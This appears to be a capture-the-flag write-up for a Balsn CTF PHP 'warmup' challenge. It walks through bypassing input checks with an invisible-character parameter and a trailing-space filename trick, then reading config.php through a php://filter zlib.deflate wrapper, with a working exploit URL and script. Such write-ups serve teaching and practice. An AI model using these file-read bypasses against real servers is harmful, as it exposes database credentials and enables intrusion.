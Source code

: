 <br>

**Method 0x1**

`if(@stRLEn($op) < 4 && @($op + 78) < 'A__A')`

For this if condition, we can simply use `op=-99` to pass it.

After that, we can input our filename for `file_get_contents()` here:

`$_ = @$_GET['⁣'];`

The argument of the `$_GET` is `\xE2\x81\xA3`, it is an invisible character.

<br>

Our target is to read `config.php`, but there is some check for our filename:

We can't use the `.php`, `php.` filename suffix and we can't use `"`, `>`, `<`, `amp`, `$`, `..` in the filename.

To bypass this restriction to read the php source code, you just need to append a space character after the filename:

`config.php[SPACE]`

(Because the server is running on Windows, there are some weird path normalization rule here :p)

<br>

If you try to read the source code of `config.php` like this:

`http://warmup.balsnctf.com/?op=-99&%E2%81%A3=config.php%20`

You will get the partial content of `config.php`:

```php
<?php
    // ***********************************
    // THIS IS THE CONFIG OF THE MYSQL DB
    // ***********************************
    $host = "loca
```

Because the third argument of `file_get_contents()` is 155. (Read 155 Bytes only)

<br>

We should use some special php wrapper to compress the content of `config.php` first.

And `php://filter/zlib.deflate` is your best friend!

Use `zlib.deflate` to compress the content and then decompress it by using `zlib.inflate`.

Script:

```php
<?php
$a = file_get_contents("http://warmup.balsnctf.com/?op=-99&%E2%81%A3=php://filter/zlib.deflate/resource=config.php%20");
$idx = stripos($a, "</code>") + 7;
file_put_contents("/tmp/tmp", substr($a, $idx));

echo (file_get_contents("php://filter/zlib.inflate/resource=/tmp/tmp"));
```
